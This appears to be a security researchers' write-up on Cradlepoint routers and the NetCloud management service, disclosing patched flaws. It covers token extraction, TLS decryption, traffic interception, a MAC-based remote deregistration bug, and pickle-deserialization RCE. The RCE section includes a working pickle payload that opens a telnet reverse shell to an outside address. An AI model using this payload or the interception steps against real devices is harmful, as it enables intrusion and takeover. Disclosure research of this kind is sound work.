 # NetCloud

- [Recon](#recon)
- [Get Access Token](#get-access-token)
- [Decrypt NetCloud Traffic in Wireshark](#decrypt-netcloud-traffic-in-wireshark)
- [MITM NetCloud Traffic with mitmproxy](#mitm-netcloud-traffic-with-mitmproxy)
- [Disconnect any Cradlepoint Router from NetCloud](#disconnect-any-cradlepoint-router-from-netcloud)
- [RCE](#rce)

## Recon

Cradlepoint documentation:

- [How to connect a router to NetCloud](https://customer.cradlepoint.com/s/article/NCM-Connecting-Devices)
- [NetCloud API to query routers remotely](https://customer.cradlepoint.com/s/article/NCM-APIv2-Overview)
  - [API query examples](https://developer.cradlepoint.com/)
- [Enable remote administration](https://customer.cradlepoint.com/s/article/NCOS-How-to-Configure-Remote-Administration-on-a-Cradlepoint-Router)

WPC Authentication / ECM:

- https://accounts.cradlepointecm.com/
  - Login with username and password
- The router uses a login `token_id` and `token_secret`
  - Token stored in NOR storage
  - `$ binwalk –extract nordump_pw0000.bin`
  - `$ grep -rl "wpc.auth" .`
- `ecm` command in the router's CLI
  - Privileged sub-commands: `tri`, `ale`, `dif`
- Connection
  - Server: `stream.cradlepointecm.com`
  - Port: `8001`
  - Certificate: `/service_manager/services/wpcclient/stream.crt`
- "Insecure Activation" (see `wpcclient.pyc`) probably only works if it's manually activated from the NetCloud side (see [use case](https://customer.cradlepoint.com/s/article/How-To-Have-Cradlepoint-register-a-router-to-NetCloud-Manager-when-it-is-physically-not-accessible)).
- "Insecure Activation" was also used to generate temporary credentials for brand-new devices (fixed by Cradlepoint after our report, fix verified by us).

## Get Access Token

Read NetCloud token from a [patched router CLI](../README.md#flashing-the-nand-images):

Connect to the router via SSH:

```bash
ssh admin@192.168.0.1
admin@192.168.0.1's password: 
[admin@IBR600C-a38: /]$ sh
/service_manager # cppython
```

... and paste the following into the interpreter:

```python
import filemanager
from board import board
file_io = board.get_partition("2nd Filemanager", rwdev=True)
fm2 = filemanager.FileManager2(file_io)
token = fm2.get("wpc.auth")
```

Example output: `(2439001, 0, '2b29ffccbda7e45df943dc1e82a096af04e24249', 'stream.cradlepointecm.com', 8001)`

You can use the `netcloud` command to register the router with the token:

```bash
[admin@IBR600C-a38: /]$ netcloud register --token_id=0 --token_secret=2b29ffccbda7e45df943dc1e82a096af04e24249
```

## Decrypt NetCloud Traffic in Wireshark

This step requires a rooted device (see [here](../README.md) for details).

1. In the dumped rootfs set the `SSLKEYLOGFILE` environment variable in `/etc/rc` and [reflash](../README.md#flashing-our-custom-kernel-and-rootfs) the device:

```bash
export SSLKEYLOGFILE=/tmp/ssl_key.txt
```

2. Connect to the router via SSH and start tcpdump:

```bash
ssh admin@192.168.0.1
admin@192.168.0.1's password: 
[admin@IBR600C-a38: /]$ sh
/service_manager # cd /var/tmp && tcpdump -i athc00 -w /tmp/netcloud_dump.pcap
```

3. Start a HTTP server to download the PCAP:

```bash
/var/tmp # iptables -A INPUT -p tcp --dport 8080 -j ACCEPT
/var/tmp # cppython -m http.server 8080
```

4. Download PCAP:

```bash
$ wget 192.168.0.1:8080/netcloud_dump.pcap
```

5. Import pre-master secret into Wireshark: Grab the file from step 1) and add it to Wireshark (`Preferences` --> `TLS` --> `(Pre)-Master-Secret logfile name`)

6. Export TLS stream as YAML: `Follow` --> `TLS Stream` --> `Show Data as YAML`

7. Finally, parse the YAML file with this [script](./scripts/parse_netcloud_packets_from_yaml.py).

## MITM NetCloud Traffic with mitmproxy

This how-to sets up your MITM box as a transparent proxy to intercept Netcloud communications with mitmproxy (we used a Raspberry Pi for this purpose).

1. Enable IP forwarding, setup `dnsmasq` and configure `iptables` rules. For example:

```bash
#!/bin/bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
sudo iptables -A FORWARD -i eth0 -o wlan0 -j ACCEPT
sudo iptables -A FORWARD -i wlan0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8001 -j REDIRECT --to-port 8080
sudo systemctl daemon-reload && sudo systemctl restart dhcpcd
sudo service dnsmasq restart
```

2. Setup the router's WAN interface to use your proxy as the default gateway (e.g., via the web interface)

3. Install mitmproxy (on Raspberry Pi):

``` bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ sudo apt-get install build-essential libssl-dev libffi-dev python3-dev cargo
$ git clone https://github.com/mitmproxy/mitmproxy/tree/main/mitmproxy
$ cd mitmproxy
$ pip install -e .
```

4. On the router, copy your MITM CA certificate into the file `/service_manager/services/wpcclient/stream.crt` (trusted CA "store")

5. Copy your MITM CA certificate into mitmproxy's folder. It must have the name `mitmproxy-ca.pem` and the following structure:

```
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
...
-----END CERTIFICATE-----
```

6. Fire up mitmproxy using [this](./scripts/mitmproxy_netcloud_logging.py) logging script:

```bash
$ mitmproxy --mode transparent --set confdir=$HOME/mitmproxy --rawtcp --tcp-hosts ".*" -s mitmproxy_netcloud_logging.py
```

## Disconnect any Cradlepoint Router from NetCloud

A device registered with Netcloud can be disconnected remotely by registering it again from any machine connected to the Internet by knowing its MAC address only (w/o Netcloud credentials and w/o accessing the device physically). The device's identity is based on its MAC address only. 

To reproduce, one has to go through the following steps:

1. We found a function in the Python middleware involved in the registration process called `insecure_registration`. This function is taking a MAC address as input and is computing a value out of it together with multiple hashes. We were able to get a temporary Netcloud authentication token using this function by calling the Netcloud API function `check_activation` with the result of the `insecure_registration` function, using a valid MAC address as input. Such MAC addresses can be easily obtained from online marketplaces such as Ebay.

After calling the API, one receives an access token from `stream.cradlepointecm.com`, e.g.:

```
{'token_id': 'temp-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx',
'token_secret': 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'}
```

2. This token can then be used to call the `authorize` and `register` Netcloud APIs to register the target device with its MAC address from any machine.

3. As a result, the target device is disconnected from its Netcloud account and disappears. Also, it loses its license. To re-connect the router, it must be manually re-registered via the web/ssh interface or physical access.

The attacker does not need to have a Netcloud account by her/himself. Only knowledge of the target’s MAC address is needed. This vulnerability has been patched.

## RCE through Deserializing Untrusted Data

By analyzing the traffic between Netcloud and our Cradlepoint router, we noticed that during registration, the router engages in a license sync with Netcloud by sending its license as a **pickled Base64 encoded byte stream**. Here is an example:

```
{'command': 'post', 'args': {'queue': 'license_sync', 'id': 'xxx', 'value': {'success': True, 'data': 'gAJ9[...]=='}}} 
```

The [Python pickle module](https://docs.python.org/3/library/pickle.html) implements binary protocols for serializing and de-serializing a Python object structure. A big warning is stated:

:warning: **Warning The pickle module is not secure. Only unpickle data you trust.** :warning:

As we control the data, it's possible to execute malicious pickle opcodes on Netcloud servers. For example, remote execution is possible, see [this blog](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). We can use this simple payload to get a reverse shell:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('telnet 192.168.1.200 8080 | /bin/bash | telnet 192.168.1.200 8081')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(pickled)
```

We didn’t run the attack against Netcloud servers, but were able to exploit the issue on the router (see example PoC [here](./scripts/mitmproxy_netcloud_rce.py)). This vulnerability has been patched.
